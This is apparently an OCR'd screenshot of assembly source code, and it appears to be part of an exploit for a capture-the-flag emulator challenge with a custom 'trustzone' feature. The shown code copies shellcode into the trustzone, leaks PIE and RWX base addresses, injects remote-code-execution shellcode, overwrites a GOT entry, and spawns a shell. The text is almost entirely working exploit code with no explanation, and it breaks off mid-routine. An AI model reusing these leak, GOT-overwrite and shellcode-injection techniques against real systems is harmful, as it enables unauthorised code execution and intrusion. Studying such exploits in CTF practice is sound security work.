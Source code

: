 ```python
    mov rdi, 0x4000
    lea rsi, [rip+leak_shared]
    lea rcx, [rip+leak_shared_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
    int 0x80

    /* leak PIE base and RWX base address */
    mov rdi, 0x4000
    lea rsi, [rip+leak_pie_rwx]
    lea rcx, [rip+leak_pie_rwx_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke trustzone to execute pie leak instructions
    int 0x80
    
    /* fill trustzone with code for rce and invoke */
    add r10, 0x444400 # We plan to inject shellcode in the rwx+0x44000 area
    mov rdi, 0x4000
    lea rsi, [rip+load_rce]
    lea rcx, [rip+load_rce_end]
    sub rcx, rsi
    rep movsb
    /* invoke trustzone -- r10 = rwx r11 = pie */
    mov rax, 10
    int 0x80

    /* map got to rce code */
    add r11, 0x120c050 # got address for write
    mov rdi, 0x4000
    lea rsi, [rip+load_got]
    lea rcx, [rip+load_got_end]
    sub rcx, rsi
    rep movsb
    /* invoke trustzone that maps 0x8000 to got of write so that we can access it in emulator vspace */
    mov rax, 10
    int 0x80

    /* Spawn shell  */
    mov rbx, 0x8000
    mov rcx, 0x1
    mov rax, 0x1
    int 0x80

    mov rax, 0x6
    int 0x80

    leak_shared:
        /* Call validate_handle 0 */
        xor rbx, rbx
        xor rcx, rcx
        mov rax, 4
        int 0x80
        mov r12, rax # store leaked value at r12
        /* Print leak for debugging purposes */
        mov rbx, rax
        mov rax, 0x2
        int 0x80
    leak_shared_end:
    leak_pie_rwx:
```